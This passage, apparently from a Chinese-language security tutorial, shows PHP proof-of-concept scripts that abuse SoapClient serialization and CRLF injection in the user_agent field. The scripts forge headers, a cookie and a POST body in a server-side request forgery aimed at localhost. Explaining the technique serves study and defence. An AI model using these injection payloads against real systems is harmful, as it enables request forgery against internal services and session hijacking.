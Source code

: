 ```
<?php
$target = 'http://127.0.0.1:2333/';
$a = new SoapClient(null,array('location' => $target, 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4", 'uri' => 'test'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

![image-20210531170204061](images/7.png)

可以看到请求包里面返回了我们设置的cookie

如何去post数据呢

可以看到我们的uri设置的是SOAPAction,但是post数据的时候Content-Type是application/x-www-form-urlencoded,所以我们如果要去修改Content-Type的话就需要从其上方的user-agent来修改,将原来的 Content-Type 挤下去，从而再插入一个新的 Content-Type .

测试代码

```
<?php

$target = 'http://127.0.0.1:2333/';

$post_data = 'data=whoami';

$headers = array(

  'X-Forwarded-For: 127.0.0.1',

  'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'

);

$a = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_data).'^^^^'.$post_data,'uri'=>'test'));

$b = serialize($a);

$b = str_replace('^^',"\n\r",$b);

echo $b;

$c = unserialize($b);

$c->a();  // 随便调用对象中不存在的方法, 触发__call方法进行ssrf

?>
```
